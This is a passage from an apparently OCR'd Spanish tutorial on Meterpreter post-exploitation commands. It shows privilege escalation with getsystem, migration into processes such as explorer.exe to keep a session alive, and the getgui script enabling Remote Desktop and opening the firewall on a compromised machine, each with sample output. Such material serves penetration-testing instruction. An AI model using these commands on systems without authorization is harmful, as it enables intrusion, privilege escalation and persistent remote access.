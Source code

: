 Stopping the keystroke sniffer…

getuid <Stdapi System Commands>, getsystem <Priv: Elevate Commands> y rev2self <stdapi System Commands>
Con estos comandos se pueden hacer operaciones de consulta y manipulación de cuentas de usuarios

##### Para obtener el usuario en sesión
```
> meterpreter > `getuid`

Server username: OWNER\Owner
```

##### Para obtener la cuenta del usuario SYSTEM

meterpreter > getsystem


##### got system (via technique 1).

```
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

##### Para volver a la sesión anterior

```
meterpreter > rev2self

meterpreter > getuid

Server username: OWNER\Owner
```

migrate <Core>
Permite migrar el proceso de Meterpreter a otro proceso activo, su uso es muy simple basta con especificar un PID activo (que puede ser consultado utilizando el comando “ps” de Meterpreter).

meterpreter > migrate 1780

De esta forma, cuando se cierre el proceso en ejecución anteriormente asociado al proceso de Meterpreter, este será “migrado” al proceso especificado, se recomienda que el PID sea el de el proceso explorer.exe o uno que tenga relación con los procesos del sistema operativo.

getgui
Con este comando es posible acceder al escritorio remoto de la maquina objetivo, en concreto, lo que permite este comando es activar el escritorio remoto de la maquina comprometida.

Su uso resulta muy sencillo:

```
meterpreter > run getgui -e

[*] Windows Remote Desktop Configuration Meterpreter Script by Darkoperator

[*] Carlos Perez carlos_perez@darkoperator.com

[*] Enabling Remote Desktop

[*] RDP is disabled; enabling it …

[*] Setting Terminal Services service startup mode

[*] The Terminal Services service is not set to auto, changing it to auto …

[*] Opening port in local firewall if necessary

```